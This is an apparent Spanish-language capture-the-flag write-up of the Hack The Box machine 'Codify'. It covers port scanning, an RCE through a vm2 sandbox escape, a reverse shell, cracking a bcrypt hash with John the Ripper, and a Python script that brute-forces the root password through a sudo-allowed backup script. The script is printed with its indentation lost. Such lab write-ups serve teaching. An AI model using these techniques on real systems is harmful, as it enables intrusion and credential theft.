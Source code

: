 ```yaml
---
layout: single
title: Codify - Hack The Box
excerpt: "Para vulnerar esta máquina ByPasseamos la medidad de seguridad de la biblioteca vim2 donde podemos ejecutar código malicioso NodeJS, pudiendo así llevar a cabo una ejecución Remota de Comandos, aprovechándonos de esto nos entablamos una Reverse Shell para posterior a ello escalar Privilegios con unas credenciales de una base de datos que estarían hasheadas, usamos una herramienta para ver en texto plano las credenciales, por último llevaríamos a cabo una Escalada de Privilegios para convertirnos en ROOT aprovechandonos de un .sh del cual tenemos SUDOERS"
date: 2023-11-08
classes: wide
header:
  teaser: /assets/images/htb-writeup-codify/codify_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - vm2 Sandbox Bypass
  - RCE
  - db creds
  - password cracking
  - abusing sudoers
  - brute force login

---
```


![](/assets/images/htb-writeup-codify/codify_logo.png)

Para vulnerar esta máquina ByPasseamos la medidad de seguridad de la biblioteca vim2 donde podemos ejecutar código malicioso NodeJS, pudiendo así llevar a cabo una ejecución Remota de Comandos, aprovechándonos de esto nos entablamos una Reverse Shell para posterior a ello escalar Privilegios con unas credenciales de una base de datos que estarían hasheadas, usamos una herramienta para ver en texto plano las credenciales, por último llevaríamos a cabo una Escalada de Privilegios para convertirnos en ROOT aprovechandonos de un .sh del cual tenemos SUDOERS


# PortScan
________

```
nmap -p- --open -vvv --min-rate 5000 -Pn -n 10.10.11.239
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-08 12:23 AST
Initiating SYN Stealth Scan at 12:23
Scanning 10.10.11.239 [65535 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 12:23, 13.36s elapsed (65535 total ports)
Nmap scan report for 10.10.11.239
Host is up, received user-set (0.054s latency).
Scanned at 2023-11-08 12:23:17 AST for 13s
Not shown: 65520 closed tcp ports (reset), 12 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
           Raw packets sent: 67086 (2.952MB) | Rcvd: 65581 (2.623MB)
```


# Sitio Web
_________

![](/assets/images/htb-writeup-codify/Pasted image 20231108122352.png)

Sí leemos, vemos qué es un sitio web para probar código en Node.js, lo primero qué se me ocurre es probar código malicioso JavaScript, pero seguimos indagando un poco en la página, hasta que en la parte izquierda vemos una opción de "**About US**", clickeó allí para ver sí dan algún tipo de información.

![](/assets/images/htb-writeup-codify/Pasted image 20231108122528.png)

Como vemos nos dice qué está usando una librería **"vm2"**, para evitar el JavaScript & qué también tiene una capa de seguridad para evitar código malicioso, lo primero que se me ocurre es buscar en internet posibles **ByPass** para el vm2, así encontrando este recurso:

[((Click aquí para ir al recurso))](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100)

El recurso nos proporciona un **PoC** para llevar a cabo una **RCE**, lo probamos en el editor de texto del sitio web.

![](/assets/images/htb-writeup-codify/Pasted image 20231108122947.png)

Como vemos estamos llevando a cabo una ejecución Remota de Comandos, por lo qué podemos entablarnos una Reverse Shell de manera fácil.
![](/assets/images/htb-writeup-codify/Pasted image 20231108123302.png)

Nos ponemos en escucha...

![](/assets/images/htb-writeup-codify/Pasted image 20231108123251.png)


Obtendríamos la Reverse Shell y estaríamos dentro de la máquina, tan sólo quedaría darle tratamiento a la TTY, sino sabes, te recomiendo ver este post.  [((Click aquí))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios #1
_______

Sí vemos el **"/etc/passwd"** veríamos que hay un usuario con nombre "**joshua**", así que nos interesaría convertirnos en él, buscando recursos qué podamos leer y aprovecharnos, encontramos en la ruta "**/var/www/conctact**" que dentro contiene una .db.

![](/assets/images/htb-writeup-codify/Pasted image 20231108123645.png)


Como vemos tenemos un hash con lo que parece ser la contraseña, así que usamos la herramienta "**John The Rippe**r" para tratar de hacerle un descrypt.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt --show
```

dentro del "hash.txt" pondríamos el hash qué vimos de la .db para brute forcearlo, dándonos al cabo de unos minutos la credencial correspondiente del usuario **Joshua**, por lo qué podríamos convertirnos en él.

![](/assets/images/htb-writeup-codify/Pasted image 20231108123956.png)

# Escalada de Privilegios #2
_____

Sí buscamos por permisos SUDOERS.

![](/assets/images/htb-writeup-codify/Pasted image 20231108124112.png)

Vemos que podemos ejecutar como **Root** el script en Bash "**mysql-backup.sh**", lo ejecutamos para ver como funciona.
![](/assets/images/htb-writeup-codify/Pasted image 20231108124236.png)

Debemos proporcionar la contraseña de **Root**, cuyas credenciales no sabemos, pero como podemos ejecutar el script las veces qué queramos podemos hacer un ataque de fuerza bruta, para ello nos aprovechamos del siguiente script en Python.

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
for character in all:  
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
if "Password confirmed!" in output:  
password += character  
print(password)  
break  
else:  
found = True
```

Que al ejecutarlo nos reportará la contraseña, y ya podemos convertirnos en ROOT.

![](/assets/images/htb-writeup-codify/Pasted image 20231108124612.png)

